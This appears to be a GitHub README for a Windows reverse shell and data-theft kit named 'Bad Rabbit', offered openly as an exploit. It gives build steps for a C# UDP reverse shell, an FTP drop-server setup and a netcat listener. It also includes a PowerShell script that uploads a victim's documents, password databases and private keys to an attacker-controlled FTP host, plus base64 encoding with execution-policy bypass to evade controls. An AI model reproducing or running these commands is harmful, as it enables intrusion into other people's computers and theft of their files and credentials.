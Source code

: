 # Bad Rabbit  
## Windows-Reverse-shell 

## NetCore compiling   

Don't forget like on my payload obfuscation repository is ncessary to compile our C# with NetCore

```sh
dotnet new console -o <nameofproject>
cd <nameofproject>
code . (allowing to open the progam.cs in vscode directly)
```  
in this Folder using the program.cs and write or copy our code, and compile it.

```sh
dotnet build
```
But if you want the compilation in one file only you can run that:
```sh
dotnet publish -r win-x64 -c Release /p:PublishSingleFile=true
```
## Prerequisties
### Installation of FTP server  
```sh
apt install vsftpd
```  
### if is necessary open the firewall port  
```sh
sudo cp /etc/vsftpd.conf /etc/vsftpd.conf.orig
nano /etc/vsftpd.conf
```  

modify this lines if is necessary :
```sh
listen=YES
listen_ipv6=NO
connect_from_port_20=YES
anonymous_enable=NO
local_enable=YES
write_enable=YES
chroot_local_user=YES
allow_writeable_chroot=YES
secure_chroot_dir=/var/run/vsftpd/empty
pam_service_name=vsftpd
pasv_enable=YES
pasv_min_port=40000
pasv_max_port=45000
userlist_enable=YES
userlist_file=/etc/vsftpd.userlist
userlist_deny=NO
```  
and add this if is not in:
```sh
allow_writeable_chroot=YES
```  
```sh
adduser "username" 
echo "username" | sudo tee -a /etc/vsftpd.userlist
sudo systemctl restart vsftpd
```  
## Begin Exploit  
after that check the connection on the server, if it doesn't work give the write rights on the destination folder (on the server)  

### Listen on our server machine 
using netcat on UDP port because we are build a UDP server connection

```sh
nc -luvnp 53
```
Executing our UDP reverse shell which we are compile previously  

### Powershell script to extract all the data we want  
```sh
$WebClient = New-Object System.Net.WebClient
$Dir="C:\Users\$env:UserName\"
$FTP = "ftp://USER:PASSWORD@OURIP/"
foreach($item in (Get-ChildItem $Dir -Recurse -Include *.docx, *.txt, *.xlsx, *.csv, *.pptx, *.kdbx, *.png, *.jpg, *.zip, *.rar, *.ppk, *.pem, *.xml, *.db, *.rtf)){;"Uploading $item...";$URI = New-Object System.Uri($FTP+$item.Name) ;$WebClient.UploadFile($URI, $item.FullName)}
``` 
### We can add any type of file extension and change the folder where we want to extract the data  


### Final step for the success of our exploit; encode in base 64 to bypass the execution problems  
we can use this links but is completely possible to make it in terminal  
https://raikia.com/tool-powershell-encoder/
```sh
powershell.exe -exec bypass -enc .....
```
